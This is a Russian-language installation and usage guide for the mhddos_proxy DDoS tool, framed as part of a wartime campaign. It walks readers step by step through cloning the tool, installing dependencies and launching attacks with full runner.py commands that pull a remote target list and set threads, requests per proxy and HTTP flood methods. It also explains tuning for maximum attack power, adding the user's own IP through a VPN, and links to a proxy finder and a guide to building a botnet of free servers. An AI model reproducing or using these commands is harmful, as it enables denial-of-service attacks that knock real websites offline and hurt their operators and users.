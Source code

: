 <h1 align="center">Установка mhddos_p напрямую на ваш комп</h1> 
March 28, 2022

<br/>
<br/>

ТЕСТОВИЛ ТОЛЬКО НА WINDOWS 10

🟢Пошаговые инструкции по установке mhddos_proxy на любую ОС 🟢
Windows / Linux / Mac / Android:  [ссылка](https://github.com/BionecX/mhddos_p/blob/main/docs/installation.md)

то есть Docker, который, по сути, является целой виртуальной машиной и жрет много ресурсов, не нужен вообще - 🔺 замена на python скрипт поможет снизить нагрузку на ваш процессор в 2-3 раза 

❗️Помощь(бесплатно) в поиске прокси для mhddos_p , НОВЫЙ МЕТОД ДЛЯ ВСЕХ ОС: https://github.com/BionecX/proxy_finder


❗️Авто-скрипт, который сам устанавливает все нужные файлы и запускает mhddos_proxy и proxy_finder в одном скрипте, и автоматически обновляет их: https://github.com/alexnest-ru/runner_for_windows


Анализ средства mhddos_p (что он выводит, и все его преимущества):
[ссылка](https://github.com/BionecX/mhddos_p_docs/blob/main/docs/README_analiz_sredstva_mhddos_h.md)


❗️Создание ботнета из 30+ бесплатных и автономных (работают даже при выключенном ПК) Linux-серверов: [ссылка](https://auto-ddos.notion.site/dd91326ed30140208383ffedd0f13e5ccc)



Прежде всего, нужно установить Python3 (чтобы запускать сам скрипт) и Git (чтобы скачать все зависимости (requirements))

!!!ВСЕ ПУНКТЫ ОБЯЗАТЕЛЬНЫЕ!!!


Весь код программы открыт здесь:
https://github.com/BionecX/mhddos_p


1.Установка Python3:

Способ 1 (очень простой):

Заходим в cmd (командная строка)
Командная строка

-> Прописываем python3

 -> нажимаем Enter
Если у вас до сих пор нет python3, то Вас перекинет в Microsoft store, там нажимаете Получить/Получить/Get

Если он у вас уже есть, то будет вот так:

После получения python3 закрывает это окно терминала (команды срока)

Если через cmd (командую строку) не получилось, или у вас Python ниже 3.10 (проверить можно так python --version) – попробуйте зайти самостоятельно в Microsoft Store и найти и установить там Python3.10


!!!ТОЛЬКО ЕСЛИ С ПРЕДВАРИТЕЛЬНЫМ СПОСОБОМ НЕ ПОЛУЧИЛОСЬ:!!!
Способ 2: скачиваем python: https://www.python.org
Кликаете именно в таком порядке

Запускаете скачанный файл
Именно в таком порядке 1-ый самый важный

Дальше все по умолчанию везде кликаете Далее / Да
2. Установка Git


Для начала нужно еще установить Notepad++ (удобный редактор кода, он сгодится и после нашей победы в войне):

https://notepad-plus-plus.org/downloads/v8.2.1/ 

Когда скачали, запустили установщик и установили Notepad++ переходим к следующим пунктам


Скачиваем установщик git`a https://gitforwindows.org (эта самая ссылка на оф. сайте github`a: https://github.com/git-guides/install-git#install-git-on-windows)


Ждем пока скачается, затем запускаем скачанный файл


УСТАНОВИВАТЬ НАДО САМЕ ТАК:
Из списка выбрать именно Notepad++ (который вы должны скачать раньше, если нет, то закрывайте и скачивайте, затем открывайте Setup файл еще раз)
Готово
3. Устанавливаем сам скрипт mhddos_p

Открываем Мой компьютер

Ищем папку рабочего стола:

Заходим в папку Рабочего стола:

Но в выделенной области прописываем три буквы cmd:

И нажимаем Enter – откроется окно Терминала:

Далее прописываем следующую команду:

    git clone https://BionecX/mhddos_p

и нажимаем Enter

    ddos_proxy' already exists and is not empty directory. - это значит, что нужная папка уже существует - просто следуйте инструкциям в пункт 4. Запуск атаки

Произошла загрузка нужной программы
Тем нужно зайти в папку с этой программой.

    cd mhddos_p

и сразу скачиваем необходимые зависимости:

    python -m pip install -r requirements.txt

Финально должно получиться вот так:

Теперь мы можем запускать атаки:
4. Запуск атаки

После всех предыдущих пунктов в дальнейшем вам нужно будет ВЫПОЛНЯТЬ ТОЛЬКО ЭТОТ ПУНКТ:


Находим папку из mhddos_proxy на Рабочем столе:

Открываем ее и чтобы зайти в Терминал из этой папки, в поле прописываем cmd и нажимаем Enter:


В открывшемся терминале водим следующие команды:

    cd mhddos_p
    git pull origin main

Если у вас все установлена ​​последняя версия будет вот такое сообщение:

Если нет, то установит последнюю версию:

Теперь нужно установить еще раз зависимости (а вдруг они тоже обновились):

    python -m pip install -r requirements.txt


❗️Нужно установить супер-быстрый и стабильный VPN, чтобы ваш провайдер не резал трафик из-за подключения ко многим IP(прокси):
[ссылка](https://auto-ddos.notion.site/VPN-effde85923534cf7b4caa198a0ef0d23ccc)

Если вы будете без ВПН, то у вас вообще может попасть интернет на роутере, как было у меня, потому что провайдеры не любят когда из их IP идет трафик на большое количество других IP(прокси)

Другие ВПН тоже могут не подойти, потому что они могут отключаться

Наконец-то мы можем запускать атаку:

Для атаки вводим следующую команду, НАПРИМЕР:

    python runner.py -c https://raw.githubusercontent.com/alexnest-ru/targets/main/special/archive/shop/shop_lll7_url -t 5000 --rpc 3000 --http-methods GET STRESS --debug

Поздравляю, атака запустилась:
нули это нормально, особенно в начале атаки, пока скрипт "разгоняется"


Чтобы остановить атату: в открывшемся окне с атакой нажимаете Ctrl+C (или можно просто нажать на крестик и закрыть окно)


❗️Чтобы добавить ваш текущий IP (или IP подключенного VPN) к атаке вместе с прокси в конец команды приписывайте --vpn. (более подробно об этом: Для увеличения мощности атаки за счет вашего IP - добавьте в конец команды флажок --vpn, чтобы добавить ваш IP к атаке вместе с прокси (желательно использовать стабильный и быстрый VPN [ссылка](https://auto-ddos.notion.site/VPN-effde85923534cf7b4caa198a0efffccc) ) (кроме Linux-серверов [ссылка](https://auto-ddos.notion.site/dd91326ed30140208383ffedd0f13e5cccfff) – там менять ничего не надо))) 

Например: 

    python runner.py -c https://raw.githubusercontent.com/alexnest-ru/targets/main/special/archive/shop/shop_lll7_url -t 5000 --rpc 3000 --http-methods GET STRESS --debug --vpn


5. Шаблон команды для собственных атак:


    python runner.py -c https://raw.githubusercontent.com/alexnest-ru/targets/main/special/archive/shop/shop_lll7_url -t 5000 --rpc 3000 --http-methods GET STRESS --debug

python runner.py <Цели-сайты> --http-methods <Методы> -t <Потоки> --rpc <Подключение> --debug

    python3 - оболочка/приложение, которая будет читать и выполнять код программ runner.py
    runner.py – сам скрипт атаки
    Цели-сайты - Цели при проведении атаки на одном уровне и с использованием одного метода атаки, указанного в --http-methods, можно перечислять через пробел, а можно указать как удаленный конфиг через -c URL (где каждая цель должна быть из новой строки ). В этом случае количество целей будет разделено на каждый метод равномерно от того количества, которое вы указали.
    Можно указывать в одной команде любые типы портов, например: http://, https://, tcp://, udp:// – все они будут разбиты на нужные методы, для http и https будут браться методы из перечня --http-methods , а для tcp и udp всегда используются методы TCP и UDP соответственно
    Методы - Со всеми методами можно ознакомиться на самом гитхабе
    ( https://github.com/MHProDev/MHDDoS#features-and-methods ). Все команды, которые мы готовим в нашем канале – мы готовим уже с необходимыми для атаки методами. На одном уровне атаки методы можно перечислять через пропуск. Самые распространенные методы:
    --http-methods GET STRESS
    Потоки – это количество "вредных" пакетов/запросов в количестве t* количество_ядер, отправляемых на цель. Здесь можно выкручивать по максимуму на столько, на сколько тянет ваш ПК (мониторите нагрузку в диспетчере задач, смотрим на ЦПУ и ОЗУ, в Kali Linux это зеленый и синий график соответственно). Будьте внимательны, в начале атаки нагрузка может быть минимальной, а спустя некоторое время зашкаливать. Учитывайте, что при увеличении пакетов/угрозов количество прокси-серверов может снизиться. По умолчанию 1000, по желанию – сколько влезет в вашу машину (но желательно не больше 10000). В этой команде: -t 5000
   Подключение – здесь указываем предполагаемое количество подключений одного прокси-сервера. Оптимально указывать от 1000 до 2000. Предположим, что у вас 1000 прокси-серверов, при указании подключений в количестве 1000, вы отправите 1 000 000 пакетов на вашу цель (в идеале, но определенный процент пакетов скорее всего может потеряться). Теперь оптимальное значение:
    --rpc 2000
    Также если вы подключены к VPN России можно добавить параметр --vpn , с помощью которого атака будет происходить через прокси и вместе с вашим IP (желательно, чтобы это был IP VPN)
    Например:
    python3 runner.py -c https://raw.githubusercontent.com/alexnest-ru/targets/main/special/archive/shop/shop_lll7_url -t 5000 --rpc 3000 --http-methods GET STRESS --debug --vpn



